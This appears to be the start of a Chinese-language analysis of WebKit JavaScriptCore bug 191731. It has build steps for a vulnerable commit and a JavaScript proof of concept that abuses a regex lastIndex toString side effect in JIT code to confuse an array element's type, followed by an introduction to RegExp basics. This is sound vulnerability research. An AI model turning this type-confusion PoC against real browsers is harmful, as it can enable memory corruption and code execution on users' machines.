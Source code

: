 切回补丁上一个版本并进行编译
```
commit 738e2705bb89b082299a7bb4de77b2ffc691ef30
Author: Simon Fraser <simon.fraser@apple.com>
Date:   Fri Nov 16 05:02:56 2018 +0000
    
wnagzihxa1n@ubuntu:~/JSCDebug/Bug-191731$ git checkout 738e2705bb89b082299a7bb4de77b2ffc691ef30 -b Bug-191731
Checking out files: 100% (212274/212274), done.
Switched to a new branch 'Bug-191731'
wnagzihxa1n@ubuntu:~/JSCDebug/Bug-191731$ ./Tools/Scripts/update-webkitgtk-libs
wnagzihxa1n@ubuntu:~/JSCDebug/Bug-191731$ ./Tools/Scripts/build-webkit --jsc-only --debug
```

Poc
```javascript
var victim_array = [1.1];
var reg = /abc/y;
var val = 5.2900040263529e-310 // 0x0000616161616161

var funcToJIT = function() {
    'abc'.match(reg);
    victim_array[0] = val;
}

for (var i = 0; i < 10000; ++i){
    funcToJIT()
}

regexLastIndex = {};
regexLastIndex.toString = function() {
    victim_array[0] = {};
    return "0";
};
reg.lastIndex = regexLastIndex;
funcToJIT()
print(victim_array[0])
```

## 0x01 基础知识
JavaScript的正则表达式分为两部分：正则表达式主体和修饰符

如下为一个典型的正则表达式，意思为不区分大小写匹配字符`a`，修饰符可有可无
```javascript
/a/i
```

### 1.1 RegExp对象
RegExp对象使用的是函数`exec()`检索模式串，此处也有修饰符`g`的作用，每次只匹配一个模式串，通过`regexp.lastIndex`属性来记录下一次搜索的起点
```javascript
>>> var str = "abcd abcd abcd"
>>> let regexp = /a/g
```
